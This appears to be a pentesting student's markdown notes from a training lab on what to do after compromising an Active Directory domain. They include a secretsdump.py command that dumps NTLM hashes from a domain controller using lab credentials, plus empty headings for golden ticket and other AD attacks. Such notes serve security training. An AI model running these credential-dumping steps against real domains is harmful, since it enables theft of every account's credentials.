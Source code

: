 
## Compromised the Domain - Now What?
 
 - [ ] Post-Domain Compromise Attack Strategy 

```
If we compromise the domain controller on day one, we need to put our
blinders on and go do it again.
```

![[Pasted image 20241116140123.png]]



 - [ ] Dumping the NTDS.dit 

```
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
```

```
You never have to worry about PC passwords cuz if we were going to
crack anything, we would not include PC passwords.
```


- [ ] Golden Ticket Attacks



- [ ] Additional Active Directory Attacks

